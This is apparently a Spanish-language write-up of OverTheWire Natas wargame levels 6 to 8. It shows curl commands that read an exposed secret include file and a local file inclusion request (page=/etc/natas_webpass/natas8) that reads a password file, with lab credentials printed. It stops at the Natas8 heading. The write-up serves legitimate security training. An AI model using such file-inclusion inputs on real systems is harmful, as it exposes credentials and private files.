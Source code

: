 (Natas6)[http://natas6.natas.labs.overthewire.org]
*Vulnerabilidad: rutas en el codigo fuente*

Cuando visitamos la pagina hay un formulario para meter un "secreto" y con el ver la contraseña. Tambien hay un enlace a "index-source.html"
Aqui hay un pequeño php que nos dice que hay que meter un valor "secret" por POST, tambien una ruta "include 'includes/secret.inc';"
Si la isitamos damos con tal secreto
```console
[cucuxii@parrot]~[natas]:$ curl -s "http://natas6.natas.labs.overthewire.org/includes/secret.inc" -u natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
$secret = "FOEIUWGHFEEUHOFUOIU";
[cucuxii@parrot]~[natas]:$ curl -s "http://natas6.natas.labs.overthewire.org" -u natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 -X POST \
> -d "secret=FOEIUWGHFEEUHOFUOIU&submit="
Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
```

## Natas7

(Natas7)[http://natas7.natas.labs.overthewire.org]
*Vulnerabilidad: LFI (local file inclusion)*

Cuando visitamos la web, en el codigo fuente se filtra otra ruta, pero no se puede acceder poniendola en la URL sin más. Aun asi en la web hay dos
enlaces. Si clicamos en uno sale en la url un "index.php=home o index.php=about", que tambien se ve claramanete desde el codigo fuente.

```console
[cucuxii@parrot]~[natas]:$ curl -s "http://natas7.natas.labs.overthewire.org" -u natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
[cucuxii@parrot]~[natas]:$ curl -s "http://natas7.natas.labs.overthewire.org/etc/natas_webpass/natas8" -u natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
```
Dicho index.php parece script que te redirige al sitio que pone tras el parametro "page". En este caso "home" y "about" pero la vulnerabilidad
reside en que podemos poner nosotros el parametro que nos de la gana y nos lleve alli. Nos interesa la ruta que se nos ha filtrado antes.

```console
[cucuxii@parrot]~[natas]:$ curl -s "http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8" \ 
-u natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
```

## Natas8

(Natas8)[http://natas8.natas.labs.overthewire.org]
*Vulnerabilidad: algoritmo de encriptado filrado*
